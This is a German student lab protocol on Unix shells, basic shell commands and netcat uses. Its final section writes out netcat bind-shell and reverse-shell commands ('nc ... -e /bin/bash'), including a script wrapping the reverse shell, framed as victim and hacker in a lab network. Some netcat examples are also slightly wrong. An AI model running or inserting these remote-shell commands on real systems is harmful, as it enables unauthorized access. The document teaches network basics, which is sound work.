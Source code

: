 ```yaml
---
generateTableOfContents: true
title: "Shells"
protocolAufgabenNr: 10
protocolKlasse: "3BHIF"
protocolName: "Benjamin Friedl"
protocolGruppe: 2
protocolAbgabetermin: "07.04.2024"
protocolAbgabedatum: "08.04.2024"
---
```


## Kurzbeschreibung:

In diesem Protokoll wird auf die verschiedenen Shells und deren Funktionsweise eingegangen. Außerdem werden verschiedene Befehle und deren Verwendung erklärt. Abschließend wird auf das Tool Netcat eingegangen und dessen Verwendungsmöglichkeiten aufgezeigt.

# Shells

- sh: Bourne Shell -> älteste Shell
- Ksh: Korn Shell -> Weiterentwicklung von sh mit mehr Features
- csh: C-Shell -> von Bill Joy entwickelt -> Syntax ähnlich wie C
- bash: Bourne Again Shell -> Weiterentwicklung von sh
- zsh: Z-Shell -> Weiterentwicklung von bash -> viele Features wie Autovervollständigung, Rechtschreibkorrektur, Themes, etc.

```text
stdir                   -> stdout
-------> Process ---<
                        -> stdin
```

# Commands

- File ausgeben

```bash
cat /etc/passwd
```

- File ausgeben und in ein anderes File schreiben

```bash
cat /etc/passwd > /tmp/passwd
```

- File ausgeben und an ein anderes File anhängen

```bash
cat /etc/passwd >> /tmp/passwd
```

- File ausgeben und weiterleiten

```bash
cat /etc/passwd | grep root
```

- File ausgeben und weiterleiten

```bash
cat /etc/passwd | grep root | wc -l
```

- File ausgeben und weiterleiten

```bash
cat /etc/passwd | grep root | wc -l > /tmp/root
```

- File erstellen mit Inhalt

```bash
echo "Hallo" > /tmp/hallo
```

\
\

- Directories anzeigen und sortieren

```bash
ls -l | sort
```

- oder auch umgekehrt:

```bash
sort < abc.txt
```

- Dateien suchen

```bash
find / -name passwd
```

- Dateien suchen und in ein anderes File schreiben

```bash
find / -name passwd > /tmp/passwd
```

- Change Pwd

```
sudo passwd
```

- User hinzufügen

```bash
sudo useradd -m -s /bin/bash benjamin
```

- watch on suid_cound

```bash
watch -n 1 "ls -l /bin/su" # -n 1 -> alle 1 Sekunden
```

- test (z.B. ob File lesbar ist)

```bash
test -r /etc/passwd
```

- return wert von letztem Befehl

```bash
echo $?
```

- datei ausführbar machen

```bash
chmod +x abc.sh
```

# Verketten von Befehlen

\

- abc.txt in def.txt schreiben (könnte auch mit copy gemacht werden)

```bash
cat < abc.txt > def.txt
```

# Netcat

- Netcat ist ein Tool, das Netzwerkverbindungen aufbauen kann
- Außerdem kann es für:
  - Chat-Tools
  - File-Transfer-Tools
  - Port-Scanning
  - Port-Forwarding
  - etc. verwendet werden

## Chat-Tool

### Aufbau

|  | **Server** | **Client** |
|---|---| --- |
| **Adresse** | `10.140.6.1` | `10.140.1.3` |
| **Port** | `3333` | `3333` |
\

- Client schickt Nachricht an Server

```bash
nc 10.140.6.1 3333 < "Hallo"
```

![alt text](/images/school_nscs_image.png)

- Server schickt Nachricht an Client

```bash
nc -l 3333 > "Hallo"
```

### File-Transfer-Tool

- Client erstellt eine Datei "hello.txt"

```bash
echo "Hello" > hello.txt
```

- Client schickt File "abc.txt" an Server und bricht den Befehl manuell ab
![alt text](/images/school_nscs_image-1.png)

```bash
nc 10.140.0.12 3333 < hello.txt
```

- Server empfängt File "abc.txt"

```bash
nc -l 3333 > hello.txt
```

## Shellzugriff

*Möglich über ssh, rsh, telnet, etc. -> aber auch über **Netcat** möglich*

- Victim startet Netcat und wartet auf Verbindung

```bash
nc -l 3333 -e /bin/bash
```

- Hacker verbindet sich mit Server

```bash
nc 10.140.0.12 3333
```

- Hacker hat nun Zugriff auf die Shell des Victims und **kann Befehle ausführen!**

### Nachteile für Hacker

- Interne IP-Adresse, NAT -> ohne Port-Forwarding nicht erreichbar
- Firewall -> blockt eingehende Verbindungen
- IDS -> erkennt Hacker-Aktivitäten und blockt Verbindungen
(IDS: Intrusion Detection System)

### Lösung: Victim verbindet sich mit Hacker (Reverse Shell)

- Hacker startet Netcat und wartet auf Verbindung

```bash
nc -l 3333
```

- Victim verbindet sich mit Hacker

```bash
nc 10.140.0.3 3333 -e /bin/bash
```

- Hacker hat nun Zugriff auf die Shell des Victims und **kann Befehle ausführen!**
- Optimierung: sh script

```bash
#!/bin/bash
nc 10.140.0.3 3333 -e /bin/bash
```

## Netcat unter Windows

- Netcat ist auch unter Windows verfügbar aber nicht standardmäßig installiert
- Download: <https://eternallybored.org/misc/netcat/>
- Installation: `nc.exe` in `C:\Windows\System32` kopieren
- Es gibt auch eine GUI-Version von Netcat: <https://sourceforge.net/projects/nc110/>
- GUI-Version ist einfacher zu bedienen, aber weniger flexibel
- GUI-Version kann auch für Port-Scanning, Port-Forwarding, etc. verwendet werden
